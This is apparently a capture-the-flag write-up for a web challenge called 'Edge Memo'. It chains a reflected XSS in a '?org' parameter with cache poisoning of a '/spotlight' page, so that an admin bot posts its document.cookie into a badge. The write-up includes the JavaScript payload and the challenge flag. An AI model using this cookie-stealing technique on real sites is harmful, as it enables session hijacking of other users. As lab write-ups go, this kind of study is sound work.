








# Edge Memo

## Description

Get your privileged badge !
For free !

## Solve



This is a website where we can create `badges`, also there is an `admin` badge, but we cannot see it because we dont have access.

```txt
Generate your ZeroDayTM participant badge. The most recently submitted badge is featured on the spotlight page — submit it for admin review via the report page. Staff badges are listed at /badges (admin only). Badges are automatically deleted after 120 seconds.
```

It says that `/badges` has all the badges and that every badge is auto deleted after 2 minutes.

Also there is `spotlight`, but lets see what that is!



```txt
The most recently submitted badge is featured here. The most recently submitted badge is featured here. The admin reviews this page when requested.
```

So the most recent `badge` will show here, also on the right it talks about some `?org` feature.

Lets try to do some XXS there, but first we need a badge!

The XXS works, on `/spotlight?org=<script>alert(1)</script>`



Also looking at the headers!

We can see a `X-Cache: MISS`



Lets now try to just go to `/spotlight`, maybe the website is cached!

Its cached!



So the chain is:

1. Make a badge
2. Poison the cache with the XXS
3. Make the Admin, create a badge with the document.cookie
4. Report `/spotlight`
5. Get Cookie and get the flag

The `POST` requests to `/badge` in order to create one looks like this:

```js
  fetch('/badge', {
    credentials: 'include',
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'handle=a&team=a&bio=a'
  });
```

So we can do this:

```js
<script>
  fetch('/badge', {
    credentials: 'include',
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'handle=b&team=b&bio=' + document.cookie
  });
</script>
```

Making the request:



After reporting:



We get the flag!



### Flag:
ZDTM{moderator_bots_trust_poisoned_edge_tiles}